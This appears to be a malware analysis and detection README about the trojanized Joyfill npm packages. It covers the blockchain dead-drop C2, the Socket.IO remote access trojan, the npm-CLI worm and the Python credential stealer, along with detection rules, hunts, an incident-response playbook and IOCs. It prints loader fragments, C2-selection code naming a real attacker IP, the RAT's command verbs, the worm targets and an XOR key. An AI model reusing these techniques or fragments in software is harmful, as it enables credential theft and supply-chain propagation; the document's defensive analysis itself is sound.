

# Joyfill npm Compromise: an On-Import RAT With Blockchain Dead-Drop C2 and a Python Credential Stealer

## TL;DR
On 2026-07-28 StepSecurity reported that malicious **"2773" beta versions** of two legitimate Joyfill npm packages — `@joyfill/components` and `@joyfill/layouts` — were published to the npm registry with an obfuscated payload spliced only into the built `dist` bundles (no source change, and `package.json` carries no install hook). The payload runs **on import, not on install**, so `npm install --ignore-scripts` does not stop it: a unit test, a bundler run, a dev server or a production deploy that imports the package detonates it. It is a five-stage in-memory chain — an obfuscated loader, a **blockchain dead-drop C2 resolver** (a Tron transaction points to a BNB Smart Chain transaction whose XOR-decrypted input is the next stage, with an Aptos fallback), two staged downloaders, and a final **Socket.IO remote access trojan** with worm-like self-propagation that patches the global npm CLI plus a staged **Python credential stealer** aimed at the developer workstation. It is unattributed; the identical implant in both packages indicates one actor. This is a Thursday supply-chain (#7 supply-chain software) case with a heavy malware-RE angle and **no CVE** — a package compromise, not a software vulnerability.

## Attribution and confidence
Primary reporting: **StepSecurity** (Varun Sharma), "Compromised npm Packages: @joyfill/components and @joyfill/layouts Ship an Obfuscated Remote Access Trojan," 2026-07-28. StepSecurity confirmed the compromise three ways: the OSS AI scan feed flagged `@joyfill/layouts@0.1.2-2773.beta.0` as CRITICAL (score 0, REJECTED verdict); Harden-Runner sandbox detonation of all six affected versions; and a byte diff of the malicious builds against their clean siblings that isolated the injected block.

- **Confidence: high** on the mechanics, the compromised versions, and the IOCs (extracted from the installed tarballs and the deobfuscated stages). **Unattributed** on the operator: there is no named group. The campaign-tag scheme (`_V = "A9-0135-3"` for the npm vector, mapping to a distinct C2 per distribution channel) indicates the same malware family is delivered through multiple channels and tracked separately by the operator, but that is a family signal, not an actor identity.
- Do not read "hijacked legitimate project" as "low impact": the real target is the **developer machine** (the Python stealer harvests browser secrets, wallets, SSH/Git/GitHub tokens and OS keychains), and the npm-CLI worm loop turns one infected workstation into a publisher of further trojanized packages.

| Overlap candidate | Shared trait | Distinguishing trait | Confidence of link |
|---|---|---|---|
| Generic "on-import" npm stealers (mrmustard, TrapDoor) | Runs on import, defeats `--ignore-scripts`; credential theft | Joyfill adds blockchain dead-drop C2 + Socket.IO RAT + npm-CLI worm | low (shared TTP, not shared actor) |
| Shai-Hulud / TeamPCP worm family | Self-propagation via developer credentials/tooling | Joyfill propagates by patching the local npm CLI, not by OIDC/provenance forgery | low |
| Web3-themed npm stealers | Wallet/keystore theft interest | C2 is resolved *from* the chain (dead drop), not just stealing from it | low |

Genealogy with previous repo cases: this extends the repo's npm/PyPI compromise line — Day 1 (2026-04-29 Shai-Hulud/Bitwarden), Day 15/21 (TeamPCP Mini Shai-Hulud and the 48-hour multi-vector campaign), Day 29 (2026-05-28 TrapDoor cross-ecosystem stealer), and the EVM/DeFi typosquat (2026-05-07). Those cases pivot on `postinstall` hooks, OIDC/provenance forgery or typosquatting. **Joyfill's novelty for the repo is the blockchain dead-drop C2** (Tron→BNB Smart Chain→Aptos), an on-import (not `postinstall`) trigger, and a worm loop that amplifies through the global npm CLI rather than through CI identity.

## Kill chain — summary table
| Stage | MITRE | Detail |
|---|---|---|
| Publish trojanized `2773` builds | T1195.002 | Payload in `dist` bundles only; no source change, no install hook |
| Detonate on import | T1059.007 | Loader compiled into entry bundle; runs on `require`/`import`, defeats `--ignore-scripts` |
| Deobfuscate loader in memory | T1027 / T1140 | Seeded string-shuffle + `Function`-constructor ladder + dictionary (LZ77-style) decompressor |
| Stash Node primitives | T1620 | `global.r = require`, `global.m = module`; later stages reflectively load `child_process`/`http` |
| Resolve C2 from a blockchain dead drop | T1102.001 | Tron tx memo → BNB Smart Chain tx input → XOR-decrypt → `eval`; Aptos fallback |
| Stage downloaders + Socket.IO RAT | T1105 / T1071.001 | Campaign-gated C2 selection; RAT self-installs `socket.io-client`/`axios` at runtime |
| Persist + self-propagate (worm) | T1554 | Inject loader stub into `npm/lib/cli.js`, `@vscode/deviceid`, Discord/GitHub Desktop |
| Steal credentials + exfiltrate | T1555.003 / T1552.001 / T1041 | Python stealer: browsers, wallets, SSH/Git/GitHub, keychains → encrypted archive → C2 |



The left lane is the victim developer machine / CI runner from package import to workstation credential theft; the right lane is the attacker's infrastructure — the npm registry, the public-blockchain dead drop, and the plain-HTTP C2 hosts. The critical detection anchors (marked in red) are a build/CI **`node` process contacting public blockchain APIs**, a **plain-HTTP Socket.IO channel on port 443** to an unfamiliar IP, and **writes into `npm/lib/cli.js`** or Electron app bundles.

## Stage-by-stage detail

### Trojanized publication and the on-import trigger (T1195.002, T1059.007)
The malicious code appears only in the published tarballs' built bundles — there is no matching source change, and `package.json` contains no install hooks, so `npm install --ignore-scripts` provides no protection. The block is compiled into the package entry bundles and executes the moment a project imports the package.

```text
@joyfill/components: obfuscated payload appended to dist/index.js, dist/index.esm.js, dist/joyfill.min.js
  (hidden after ~3.2 MB of legitimate React code)
@joyfill/layouts   : payload prepended to dist/index.cjs.js and dist/index.es.js (spliced at dist/index.es.js:862)
  malicious tarball ~45 KB vs ~322 KB clean sibling; only exports PDFRenderer (a tell-tale partial build)
```

Compromised versions: `@joyfill/components@4.0.0-rc24-2773-beta.{4,5,6}` and `@joyfill/layouts@0.1.2-2773.beta.{0,1,2}`.

### In-memory deobfuscation and Node-primitive stashing (T1027, T1140, T1620)
The loader plants a campaign marker, then reflectively hands itself Node's module loader under innocuous global names so later stages never spell out `require`, `child_process` or `http` in cleartext.

```javascript
// dist/index.es.js:862 — injected
global["!"] = "9-0135-3";              // campaign fragment -> becomes _V = "A9-0135-3"
// seeded string-shuffle decoder yields ["r","object","m"]:
global["r"] = require;                  // stashed require
if (typeof module === "object") global["m"] = module;
```

Static scans for literals like `socket.io` or a wallet address find nothing: the stage-1 source only exists after running a seeded character-shuffle **and** a dictionary (LZ77-style back-reference) decompressor, both in memory. A two-step `Function`-constructor ladder unscrambles the word `"constructor"` to reach the `Function` constructor without the words `Function` or `eval` appearing at that layer.

### Blockchain dead-drop C2 resolution (T1102.001)
Rather than hardcode a server, the resolver reads the latest transaction from a fixed **Tron** address, follows its (reversed) memo to a **BNB Smart Chain** transaction, decodes and XOR-decrypts the tx `input` field, and evaluates the result as JavaScript. An **Aptos** account is a fallback pointer channel. `limit=1` always fetches the latest transaction, so the operator rotates the live C2 simply by posting a new on-chain transaction.

```text
Tron  api.trongrid.io  (latest outbound tx, raw_data.data = hex(reversed BSC tx hash))
  -> BSC  eth_getTransactionByHash  (tx.input hex -> utf8 -> split("?.?")[1] = encrypted blob)
  -> repeating-key XOR -> stage source -> eval()
Fallback: fullnode.mainnet.aptoslabs.com  (recipient address of a 0-value transfer carries the hash)
```

The resolver runs twice (branch A: in-process `eval`; branch B: a detached `node -e` child). **Anti-analysis tripwires:** a 30-second re-entry guard (`global._p_t`) defeats repeated detonations, and the decoder compares its own source against a stored constant so any instrumentation silently neuters execution. The only stage-1 network contacts — `api.trongrid.io`, `fullnode.mainnet.aptoslabs.com`, `bsc-dataseed.binance.org`, `bsc-rpc.publicnode.com` — are all legitimate, HTTPS, and commonly allowlisted in CI egress.

### Campaign-gated C2 selection and the Socket.IO RAT (T1105, T1071.001)
Stage 2 reads the campaign tag `_V` and selects the C2. The npm vector (`_V` begins with `"A"`) maps to `166.88.134.62`; numeric campaigns use `198.105.127.210`; others use `23.27.202.27`. For the npm campaign, the detached branch-B child exits immediately.

```javascript
if (_V[0] == "A" || _V == "0") {                 // npm campaign "A9-0135-3"
  global["_t_s"] = "http://166.88.134.62:443";   // SOCKET_URL (plain HTTP on 443)
  global["_t_u"] = "http://166.88.134.62";        // UPLOAD_URL
}
```

The stage-3 RAT (a ~77 KB body whose strings hide in an LZString `decompressFromUTF16` table) opens a Socket.IO client to `SOCKET_URL`, fingerprints the host (with special handling for `github-runner`, `buildbot`, `sandbox-pool-`, `buildkitsandbox`, WSL2, `root`), self-installs missing dependencies at runtime (`npm --prefix <tmp> install socket.io-client axios form-data`), and registers a command surface: `ss_info` (full host report), `ss_ip` (geo via `ip-api.com`), `ss_cb` (clipboard theft — `Get-Clipboard`/`pbpaste`/`xclip`), `ss_upf`/`ss_upd` (upload files/dirs to `/u/f`), `ss_eval`/`ss_eval64` (arbitrary JS), `ss_inz`/`ss_inzx` (worm injection), `ss_connect` (re-point C2), and `~py`/`~node` (spawn detached helpers — how the Python stealer is staged).

### Persistence, worm loop, and the Python credential stealer (T1554, T1555.003, T1552.001, T1041)
The trojan inserts a self-reloading loader stub into files developer tools run routinely: the global npm CLI (`npm/lib/cli.js`, resolved via `npm root -g`), `@vscode/deviceid` (VS Code, Cursor, Antigravity), the Discord desktop core module, and GitHub Desktop `main.js`. Blocks are idempotent, guarded by sentinel comments (`/*C250617A*/` … `/*C260512A*/`, `/*RS260605*/`).

```text
Patching npm/lib/cli.js => every subsequent `npm` invocation re-executes the loader
  => any package built or published from that machine can carry the loader onward (worm loop closed).
```

It then stages a **Python infostealer** (`~py`) that collects browser data, browser-extension wallets and password managers, Git and GitHub CLI credentials, and OS keychains, packs them into an encrypted archive under `%USERPROFILE%\.npm` (Windows) or `/tmp/.npm` (Linux/macOS), and uploads to the C2. The workstation, not the CI runner, is the real objective.

## RE notes
Public analysis and extracted samples come from StepSecurity's diff of the malicious builds against clean siblings and its sandbox detonation.

| Component | SHA256 | Lang | Packer | Notes |
|---|---|---|---|---|
| Stage-3 Socket.IO RAT | `26351aed0397158d3a3b8cc8fd3047d4c015d264c9895f10f20f1521b974ed18` | JavaScript | LZString `decompressFromUTF16` (337-entry table) | Command verbs `ss_*`; beacon reports `_V` campaign tag |
| Python credential stealer | `36ff00b45e67baa7e3674b0c80f48e88737264c61e5c6b3b091200972de8157c` | Python | in-memory staging | Browsers, wallets, SSH/Git/GitHub, keychains → encrypted archive |

Anti-analysis: three obfuscation layers (seeded shuffle, `Function`-constructor ladder, dictionary decompressor); a 30-second re-entry guard; a self-integrity check that neuters execution if the decoder source is modified. The XOR key for the `/$/boot` second stage is `ThZG+0jfXE6VAGOJ`. StepSecurity did not observe a live callout during detonation — the most likely explanation is that the on-chain C2 pointer/server was taken down in the hours after disclosure, leaving the loader with nothing to connect to.

## Detection strategy

### Telemetry that matters
This is an endpoint + network case on developer machines and CI runners, not an identity case. Windows: Sysmon EID 1 (process — `node`/`npm`, detached `node -e`, `python3` children), EID 3 (network — `node` to blockchain APIs and to the C2 IPs), EID 11 (file — writes to `npm/lib/cli.js` and Electron app bundles). Defender XDR: `DeviceProcessEvents`, `DeviceNetworkEvents`, `DeviceFileEvents`. Linux/macOS: auditd/ESF equivalents plus CI egress logs. The single highest-value control is **CI egress baselining** (a `node` process reaching web3 APIs or a plain-HTTP C2 stands out) combined with **file-integrity monitoring** on the four persistence targets.

### Detection coverage
| Engine | File | Logic |
|---|---|---|
| Sigma | sigma/01_node_blockchain_deaddrop_resolution.yml | `node` process making an outbound connection to Tron/Aptos/BSC public APIs (dead-drop resolution) |
| Sigma | sigma/02_npm_runtime_dep_install_and_detached_node.yml | Runtime `npm install socket.io-client`/`axios` or a detached `node -e` carrying `global[` |
| Sigma | sigma/03_worm_injection_into_npm_cli_and_electron_apps.yml | File write into `npm/lib/cli.js`, `@vscode/deviceid`, Discord/GitHub Desktop bundles |
| KQL | kql/joyfill_node_blockchain_and_c2_network.kql | `node` to blockchain APIs or to the C2 IP set (Defender `DeviceNetworkEvents`) |
| KQL | kql/joyfill_runtime_dep_install_and_detached_node.kql | Runtime dep install / detached `node -e` / `node`-spawned `python` |
| KQL | kql/joyfill_worm_injection_file_writes.kql | Modification of npm CLI / Electron app files by `node`/`npm` |
| YARA | yara/joyfill_npm_implant.yar | Injected loader block (campaign marker + sentinel tags) and the stage-3 Socket.IO RAT verbs |
| Suricata | suricata/joyfill_npm_c2.rules | Plain-HTTP Socket.IO + `/$/boot` + `Sec-V` header + `/u/f` exfil to the C2 IPs (6 sids) |

No SPL is shipped (retired repo-wide). Convert any Sigma to Splunk with `sigma convert -t splunk -p sysmon <rule>.yml` if required. Thresholds/aggregation (e.g. distinct-destination fan-out) live in the SIEM, per the Sigma descriptions.

### Threat hunting hypotheses
- **H1 — node resolving C2 from a blockchain dead drop.** Hunt for a build/CI/dev `node` process reaching `api.trongrid.io`/`aptoslabs.com`/`bsc-dataseed.binance.org` and clustering with an `npm install`/import. See [hunts/peak_h1_node_web3_deaddrop.md](./hunts/peak_h1_node_web3_deaddrop.md).
- **H2 — plain-HTTP Socket.IO to an unfamiliar IP.** Hunt for cleartext HTTP `/socket.io/` on port 443 and any contact with the C2 IP set. See [hunts/peak_h2_socketio_plainhttp_c2.md](./hunts/peak_h2_socketio_plainhttp_c2.md).
- **H3 — worm injection + credential staging.** Hunt for writes to `npm/lib/cli.js`/Electron bundles carrying the sentinel tags, and archives under `%USERPROFILE%\.npm` / `/tmp/.npm`. See [hunts/peak_h3_worm_injection_and_cred_staging.md](./hunts/peak_h3_worm_injection_and_cred_staging.md).

## Incident response playbook

### First 60 minutes (triage)
1. Grep every repo, lockfile and CI cache for a `2773` prerelease: `grep -rEn 'joyfill.*2773' package-lock.json yarn.lock pnpm-lock.yaml`.
2. On any host that installed/imported an affected version, treat the environment as compromised — the payload runs on import, so an install alone is enough if the package was ever loaded.
3. Pull `node` network telemetry for contacts with the blockchain APIs and the C2 IPs (`166.88.134.62`, `23.27.13.43`, `198.105.127.210`, `23.27.202.27`).
4. On developer workstations (highest priority — the stealer targets them), inspect `npm/lib/cli.js`, `@vscode/deviceid/dist/index.js`, the Discord core module and GitHub Desktop `main.js` for the sentinel tags.
5. Identify credentials that were present on affected machines — plan rotation of browser secrets, Git/GitHub/npm tokens, SSH keys and wallet keys.

### Artifacts to collect
| Artifact | Path | Tool | Why |
|---|---|---|---|
| Installed package tarballs / lockfiles | project `node_modules`, `package-lock.json` | npm / file copy | Confirm the `2773` version and preserve the injected `dist` bundle |
| Injected developer-tool files | `npm/lib/cli.js`, `@vscode/deviceid/dist/index.js`, Discord core, GitHub Desktop `main.js` | file copy + YARA | Prove worm persistence; scope reinstall |
| Credential staging archive | `%USERPROFILE%\.npm\` or `/tmp/.npm/` | file copy | Evidence of stealer execution / what was packed |
| Process + network telemetry | EDR / Sysmon / CI egress logs | KQL / export | `node`→blockchain, plain-HTTP Socket.IO, `python` spawn |

### IR queries and commands
```powershell
# Windows: find compromised versions and injected npm CLI
Get-ChildItem -Recurse -Include package-lock.json,yarn.lock,pnpm-lock.yaml |
  Select-String -Pattern 'joyfill.*2773'
$npmRoot = (npm root -g); Select-String -Path (Join-Path $npmRoot 'npm\lib\cli.js') -Pattern 'C25061|C26051|RS260605|9-0135-3'
```
```bash
# Linux/macOS: sentinel-tag sweep across developer-tool files and staging dirs
grep -rslE 'C25061[7-9A]|C25062[0A]|C26051[12A]|RS260605|9-0135-3' \
  "$(npm root -g)"/npm/lib/cli.js ~/.config/**/@vscode/deviceid 2>/dev/null
ls -la /tmp/.npm 2>/dev/null
```
```kql
// Defender XDR: any host that talked to the C2 IPs
let c2 = dynamic(["166.88.134.62","23.27.13.43","198.105.127.210","23.27.202.27"]);
DeviceNetworkEvents | where RemoteIP in (c2) | summarize by DeviceName, RemoteIP, RemotePort, InitiatingProcessCommandLine
```

### Containment, eradication, recovery
Remove the compromised versions and pin to a release published before 2026-07-28 (`npm install @joyfill/components@4.0.0-rc24 @joyfill/layouts@0.1.1`), delete `node_modules` and reinstall from a clean lockfile. On workstations that imported the package, reinstall the affected applications and the global npm to remove injected stubs, delete the staging archive, and **rotate every credential** that was present (browser secrets, Git/GitHub/npm tokens, SSH keys, wallet keys). **What NOT to do:** do not rely on `--ignore-scripts` (the trigger is import, not `postinstall`); do not blanket-block the blockchain APIs (they are legitimate and shared with real web3 traffic — hunt the *process*, not the domain); do not assume a host is clean because no C2 callout was seen (the on-chain pointer may simply have been down). Exit criteria: no affected version in any lockfile, no sentinel tags in the four target files, credentials rotated, and no residual `node`→C2 or plain-HTTP Socket.IO traffic.

### Recovery validation
Re-run the H3 file-integrity hunt to confirm zero sentinel tags remain; re-run H1/H2 to confirm no new `node`→blockchain or C2 traffic; verify all previously exposed tokens are rotated and old ones revoked; and confirm registry/Cooldown controls block re-entry of the `2773` versions via a pull request.

## IOCs
Full list in [iocs.csv](./iocs.csv). Indicators decay — validate the C2 IPs for freshness before enforcing a block; StepSecurity observed no live callout after disclosure.

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| string | @joyfill/layouts@0.1.2-2773.beta.0 | Compromised version (payload in dist/index.cjs.js, dist/index.es.js) | high | StepSecurity 2026-07-28 |
| string | @joyfill/components@4.0.0-rc24-2773-beta.4 | Compromised version (payload appended to dist bundles) | high | StepSecurity 2026-07-28 |
| ipv4 | 166.88.134.62 | Primary Socket.IO C2 for the npm campaign; plain HTTP on :443 (SOCKET_URL), :80 (UPLOAD_URL) | high | StepSecurity 2026-07-28 |
| ipv4 | 23.27.13.43 | C2 serving the `/$/boot` second stage | medium | StepSecurity 2026-07-28 |
| domain | api.trongrid.io | Legitimate Tron API abused as the stage-1 dead-drop resolver (hunt the process, do not blanket-block) | medium | StepSecurity 2026-07-28 |
| string | Sec-V: A9-0135-3 | Custom HTTP header carrying the campaign tag to the C2 | high | StepSecurity 2026-07-28 |
| string | 9-0135-3 | Loader campaign marker (`global["!"]`; becomes `_V = "A9-0135-3"`) | high | StepSecurity 2026-07-28 |
| sha256 | 26351aed0397158d3a3b8cc8fd3047d4c015d264c9895f10f20f1521b974ed18 | Stage-3 Socket.IO RAT | high | StepSecurity 2026-07-28 |
| sha256 | 36ff00b45e67baa7e3674b0c80f48e88737264c61e5c6b3b091200972de8157c | Python credential stealer | high | StepSecurity 2026-07-28 |
| path | npm/lib/cli.js | Global npm CLI patched by the worm (every `npm` run re-executes the loader) | high | StepSecurity 2026-07-28 |
| string | TMfKQEd7TJJa5xNZJZ2Lep838vrzrs7mAP | Tron dead-drop pointer (branch A) | high | StepSecurity 2026-07-28 |

No CVE is associated with this case — it is a maintainer/package compromise (malicious published tarballs), not a software vulnerability, so nothing appears on the CISA KEV catalog; absence from KEV is expected and is not evidence of low risk.

## Secondary findings
- **A parallel PyPI sibling the same week.** StepSecurity separately reported `mrmustard 0.7.4` on PyPI (2026-07-24): a hijacked maintainer account shipped a credential stealer that also **runs on import**, exfiltrating SSH keys, AWS and Kubernetes credentials from developer and research machines. The on-import (not `postinstall`) trigger is now the norm across ecosystems, and it neutralizes the `--ignore-scripts` mitigation that many pipelines still rely on.
- **Blockchain as an unblockable dead drop.** The only hardcoded stage-1 network indicators are legitimate public blockchain APIs, indistinguishable from real web3 developer traffic without payload inspection. Because `limit=1` always returns the latest transaction, the operator rotates the live C2 by posting a new on-chain transaction — resilient takedown requires the chain operators, not a domain block. Detection has to move to the *process* (a build `node` touching web3 infra) and the plain-HTTP C2, not the resolver domains.
- **The npm CLI as a worm amplifier.** Patching `npm/lib/cli.js` means every subsequent `npm` invocation re-executes the loader, so any package built or published from an infected workstation can carry the implant onward. The blast radius is the developer's machine and everything they publish — file-integrity monitoring on the global npm and Electron app bundles is the control that scoped registry scanning cannot provide.

## Pedagogical anchors
- **`--ignore-scripts` is not a supply-chain control.** When the payload is compiled into the package's entry bundle, it runs on `import`, not on a `postinstall` hook. Assume any dependency you *load* can execute code; isolate builds and baseline their egress rather than trusting install-time flags.
- **A dead drop moves the IOC off your blocklist.** Resolving C2 from a public blockchain (or any high-reputation service) means the durable indicator is behavioral — *which* process reaches web3 infrastructure and *when* — not a domain or IP you can pre-block.
- **The workstation is the target, the CI runner is the courier.** The stealer harvests developer secrets and wallets; the npm-CLI worm turns one laptop into a publisher. Protect developer machines (FIM, credential hygiene, hardware-bound tokens) as production assets.
- **Diff the build, not just the source.** The source repo was clean; the malice lived only in the published `dist` tarball. Provenance and reproducible-build checks that compare the published artifact against a build from source catch exactly this class.
- **Kill switches beyond the block.** Egress allowlisting in CI (block-by-default destinations) and package Cooldown/known-malicious checks stop a newly published or dead-drop-resolved payload even when no signature exists yet.

## What's in this folder
| File | Purpose | Link |
|---|---|---|
| README.md | This analysis. | [README.md](./README.md) |
| kill_chain.svg | Two-lane kill-chain diagram (victim dev machine/CI vs attacker registry + blockchain dead drop + C2). | [kill_chain.svg](./kill_chain.svg) |
| sigma/01_node_blockchain_deaddrop_resolution.yml | node process contacting public blockchain APIs (dead-drop C2). | [file](./sigma/01_node_blockchain_deaddrop_resolution.yml) |
| sigma/02_npm_runtime_dep_install_and_detached_node.yml | Runtime dep install / detached `node -e`. | [file](./sigma/02_npm_runtime_dep_install_and_detached_node.yml) |
| sigma/03_worm_injection_into_npm_cli_and_electron_apps.yml | Loader injection into npm CLI / Electron bundles. | [file](./sigma/03_worm_injection_into_npm_cli_and_electron_apps.yml) |
| kql/joyfill_node_blockchain_and_c2_network.kql | node→blockchain / C2 IP network events. | [file](./kql/joyfill_node_blockchain_and_c2_network.kql) |
| kql/joyfill_runtime_dep_install_and_detached_node.kql | Runtime dep install / detached node / python spawn. | [file](./kql/joyfill_runtime_dep_install_and_detached_node.kql) |
| kql/joyfill_worm_injection_file_writes.kql | npm CLI / Electron app file modification. | [file](./kql/joyfill_worm_injection_file_writes.kql) |
| yara/joyfill_npm_implant.yar | Injected loader block + stage-3 Socket.IO RAT. | [file](./yara/joyfill_npm_implant.yar) |
| suricata/joyfill_npm_c2.rules | Plain-HTTP C2 (Socket.IO, /$/boot, Sec-V, /u/f) — 6 sids. | [file](./suricata/joyfill_npm_c2.rules) |
| hunts/peak_h1_node_web3_deaddrop.md | PEAK hunt: node resolving C2 from a blockchain dead drop. | [file](./hunts/peak_h1_node_web3_deaddrop.md) |
| hunts/peak_h2_socketio_plainhttp_c2.md | PEAK hunt: plain-HTTP Socket.IO to an unfamiliar IP. | [file](./hunts/peak_h2_socketio_plainhttp_c2.md) |
| hunts/peak_h3_worm_injection_and_cred_staging.md | PEAK hunt: worm injection + credential staging. | [file](./hunts/peak_h3_worm_injection_and_cred_staging.md) |
| iocs.csv | Package versions, C2 IPs/paths, blockchain endpoints, Tron addresses, hashes, sentinels. | [iocs.csv](./iocs.csv) |

## Sources
- [Compromised npm Packages: @joyfill/components and @joyfill/layouts Ship an Obfuscated Remote Access Trojan — StepSecurity (2026-07-28)](https://www.stepsecurity.io/blog/joyfill-npm-supply-chain-compromise)
- [Compromised PyPI Package: mrmustard 0.7.4 Steals SSH, Cloud, and Kubernetes Credentials — StepSecurity (2026-07-24)](https://www.stepsecurity.io/blog/compromised-pypi-mrmustard-0-7-4-credential-stealer)
- [The Streak Continues: Four More Supply Chain Attacks Hit npm and PyPI — GitGuardian](https://blog.gitguardian.com/shai-hulud-npm-pypi-supply-chain-attacks/)
- [The npm Threat Landscape: Attack Surface and Mitigations — Unit 42 (Palo Alto Networks)](https://unit42.paloaltonetworks.com/monitoring-npm-supply-chain-attacks/)
- [MITRE ATT&CK T1102.001 — Web Service: Dead Drop Resolver](https://attack.mitre.org/techniques/T1102/001/)
- [MITRE ATT&CK T1195.002 — Supply Chain Compromise: Compromise Software Supply Chain](https://attack.mitre.org/techniques/T1195/002/)
- [MITRE ATT&CK T1554 — Compromise Host Software Binary](https://attack.mitre.org/techniques/T1554/)
